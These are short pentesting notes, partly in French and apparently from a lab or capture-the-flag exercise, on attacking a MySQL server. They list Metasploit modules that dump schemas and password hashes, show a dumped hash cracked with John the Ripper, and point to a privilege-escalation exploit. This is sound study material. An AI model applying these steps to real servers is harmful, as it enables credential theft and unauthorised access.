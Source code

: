 MySQL	-> RDBMS -> Relational DataBase Manageent System -> SGBD
SQL -> Structured Query Langage

Utilisation de metasploit :
	Test des credentials
	$ mysql -h [IP] -u [username] -p
	-> Necessaires pour utiliser msfconsole apres


	Utilisation de metasploit (encore) :

		search mysql_sql
		use 0
		set password/rhosts/username
		run
		result -> 5.7.29-0ubuntu0.18.04.1


	-> renvoie les noms des bases de données

		search mysql_schemadump
		use 0
		set options
		run

	result -> all databases and columns name and type

		search mysql_hashdump
		use 1
		set options
		run

	results -> all usernames and passwords hashes

		like -> username:*hash		-> carl:*EA031893AA21444B170FC2162A56978B8CEECE18
		creer un hash.txt contenant : carl:*EA031893AA21444B170FC2162A56978B8CEECE18
		then $john hash.txt
		-> doggie
		Les mots de passe sont très souvent réutilisés
		
MySQL run with root perm :
	https://www.exploit-db.com/exploits/1518
	-> get the code on the target and follow instructions
	

##### Connect to MYSQL remote server
```bash
mysql -u [username] -p -h [host ip]
```
**View a .sql file (depuis mysql) /!\ il fait être dans le dosser du fichier**
```bash
source file.sql
```

## SQL CHEATSHEET :
```sql
SHOW DATABASES;
USE db_name;
SHOW TABLES;
DESCRIBE table_name;
```
